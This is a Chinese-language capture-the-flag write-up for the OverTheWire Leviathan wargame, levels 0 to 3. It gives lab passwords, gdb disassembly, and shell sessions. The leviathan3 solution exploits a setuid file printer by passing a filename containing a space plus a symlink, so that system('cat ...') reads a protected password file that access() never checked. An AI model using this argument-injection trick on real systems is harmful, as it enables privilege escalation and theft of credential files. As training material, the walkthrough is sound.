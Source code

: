 wargame-leviathan
======================

* ssh addr: leviathan.labs.overthewire.org 
* url: http://overthewire.org/wargames/leviathan/ 

#### leviathan0
flag: leviathan0

#### leviathan1
flag: rioGegei8m

在 `~/.backup/bookmarks.html` 搜索 `password` 可得。

#### leviathan2
flag: ougahZi8Ta

home 目录下有一程序名为 check，执行之，要求输入密码， 首先 `strings check` 查看一下程序中的字符串，似乎没有发现什么像 flag 的字串，不过倒是发现了一个 `/bin/sh`，推测程序会启动一个 shell。

用 gdb 调试，对 main 下断点后反汇编，关键部分如下：

```gas
0x0804857a <+77>:    call   0x80483c0 <printf@plt>
0x0804857f <+82>:    call   0x80483d0 <getchar@plt>
0x08048584 <+87>:    mov    %al,0x14(%esp)
0x08048588 <+91>:    call   0x80483d0 <getchar@plt>
0x0804858d <+96>:    mov    %al,0x15(%esp)
0x08048591 <+100>:   call   0x80483d0 <getchar@plt>
0x08048596 <+105>:   mov    %al,0x16(%esp)
0x0804859a <+109>:   movb   $0x0,0x17(%esp)
0x0804859f <+114>:   lea    0x18(%esp),%eax
0x080485a3 <+118>:   mov    %eax,0x4(%esp)
0x080485a7 <+122>:   lea    0x14(%esp),%eax
0x080485ab <+126>:   mov    %eax,(%esp)
0x080485ae <+129>:   call   0x80483b0 <strcmp@plt>
0x080485b3 <+134>:   test   %eax,%eax
0x080485b5 <+136>:   jne    0x80485c5 <main+152>
0x080485b7 <+138>:   movl   $0x804868b,(%esp)
0x080485be <+145>:   call   0x8048400 <system@plt>
0x080485c3 <+150>:   jmp    0x80485d1 <main+164>
```

`printf` 用来输出 “password” 字样，之后连续三个 `getchar`，之后把该字符串和 `esp + 14` 处的字符串作为参数给 `strcmp@plt`，根据比较的结果决定流程，因此对 `strcmp` 下断： `break strcmp@plt`，输入密码后查看堆栈：`x/10x $esp`

过程如下：

```
0xffffd63c:     0x080485b3      0xffffd654      0xffffd658      0x0804a000
0xffffd64c:     0x08048642      0x00000001      0x00333231      0x00786573
0xffffd65c:     0x00646f67      0x65766f6c
```

`0xffffd658` 处即是该程序的 password，用 `x/s 0xffffd658` 可看。

#### leviathan3
flag: Ahdiemoo1j

这道题想了很久还是不会，最终上网看答案了……

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`，属主是 `leviathan3`，用户组是 `leviathan2`，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

> **Note:** 关于 linux 下的权限，更多请参见 [linux/privileges.md//TODO](TODO)。

```text
leviathan2@melinda:~$ ll printfile  
-r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
leviathan2@melinda:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`：

```gas
   0x0804852d <+0>:     push   %ebp
   0x0804852e <+1>:     mov    %esp,%ebp
   0x08048530 <+3>:     and    $0xfffffff0,%esp
   0x08048533 <+6>:     sub    $0x230,%esp
   0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
   0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
   0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
   0x08048546 <+25>:    mov    %eax,0x22c(%esp)
   0x0804854d <+32>:    xor    %eax,%eax
   0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; \ argc 和 1 比较，此处 argc 应该为 2
   0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
   0x08048555 <+40>:    movl   $0x8048690,(%esp)
   0x0804855c <+47>:    call   0x80483d0 <puts@plt>
   0x08048561 <+52>:    mov    0x1c(%esp),%eax
   0x08048565 <+56>:    mov    (%eax),%eax
   0x08048567 <+58>:    mov    %eax,0x4(%esp)
   0x0804856b <+62>:    movl   $0x80486a5,(%esp)
   0x08048572 <+69>:    call   0x80483b0 <printf@plt>
   0x08048577 <+74>:    mov    $0xffffffff,%eax
   0x0804857c <+79>:    jmp    0x80485e8 <main+187>

; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
   0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
   0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
   0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
   0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; \ 参数二：int amode
   0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
   0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
   0x08048597 <+106>:   test   %eax,%eax
   0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
   0x0804859b <+110>:   movl   $0x80486b9,(%esp)
   0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
   0x080485a7 <+122>:   mov    $0x1,%eax
   0x080485ac <+127>:   jmp    0x80485e8 <main+187>

; -> 来自 0x08048599 <+108> 的跳转
   0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
   0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
   0x080485b5 <+136>:   mov    (%eax),%eax              ; /
   0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; \ ...: argv[1]
   0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
   0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
   0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
   0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret    
End of assembler dump.
```

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

> The access() function shall check the file named by the pathname pointed to by the path argument for accessibility  according  
> to  the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in   
> place of the effective group ID.**

而 `suid` 权限改变的只是进程的 `euid`，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是[不可行](http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`。

到这里我就没辙了，只能看别人的 writeup 了：[OverTheWire Leviathan Wargame Solution 2](https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/)，看完发现脑洞确实不够大。

**Solution:**  
access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`，对于 access 函数来说是执行了 `access("flag here", 4)`, 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")` = `system*("cat flag; cat here")`，因此可以利用这个区别来绕过 access 函数。

```shell
leviathan2@melinda:/tmp$ mkdir slove
leviathan2@melinda:/tmp$ cd slove
leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
leviathan2@melinda:/tmp/slove$ ls
flag  flag here
leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
Ahdiemoo1j
/bin/cat: here: No such file or directory
```

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了：

```shell
leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```
